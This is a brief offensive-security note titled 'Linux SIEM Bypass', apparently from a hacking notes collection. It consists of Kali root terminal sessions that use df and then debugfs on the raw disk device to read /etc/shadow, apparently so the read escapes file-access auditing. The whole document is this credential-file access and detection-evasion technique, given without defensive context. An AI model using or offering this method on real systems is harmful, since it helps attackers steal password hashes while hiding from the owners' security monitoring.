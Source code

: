 ## Linux SIEM Bypass

```bash
┌──(root㉿kali)-[~]
└─# df /   
Filesystem     1K-blocks     Used Available Use% Mounted on
/dev/sda1       31861548 16932968  13284548  57% /
```

```bash
┌──(root㉿kali)-[~]
└─# debugfs /dev/sda1
debugfs 1.46.6 (1-Feb-2023)
debugfs:  cd /etc
debugfs:  cat shadow
root:!:19436:0:99999:7:::
daemon:*:19436:0:99999:7:::
bin:*:19436:0:99999:7:::
sys:*:19436:0:99999:7:::
sync:*:19436:0:99999:7:::
games:*:19436:0:99999:7:::
```
